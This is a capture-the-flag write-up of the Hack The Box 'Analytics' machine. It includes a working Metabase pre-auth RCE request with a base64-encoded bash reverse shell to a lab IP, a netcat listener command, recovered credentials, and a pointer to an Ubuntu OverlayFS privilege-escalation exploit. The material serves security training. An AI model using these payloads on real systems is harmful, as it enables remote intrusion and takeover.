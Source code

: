 #  Analytics HTB Machine - Easy 

__________________________________________

## WEB PAGE

login --> data.analytical.htb
The link open a login page with a *Metabase* service

Checking online seems that this service is vulnerable.
Source: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

Before exploiting we need some information to be gathered from the API.

data.analytical.htb/api/session/properties
setup-token	"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

## Reverse Shell

This Payload should get the reverse shell (but it does not):

```bash
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjExMS81NTU0IDA+JjE=}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

In Kali:

```bash
nc -nlvp 5554
```

We need to go with the MSF exploit
## Privesc to User

With Linpeas.sh we find:
META_USER=metalytics
META_PASS=An4lytics_ds20223#

## Privesc to Root

```bash
cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
```
It is vulnerable to CVE-2021-3493
Ubuntu OverlayFS Local Privesc

Exploit here: https://github.com/briskets/CVE-2021-3493
Compile in your machine first and then upload into machine.

Root! Bye
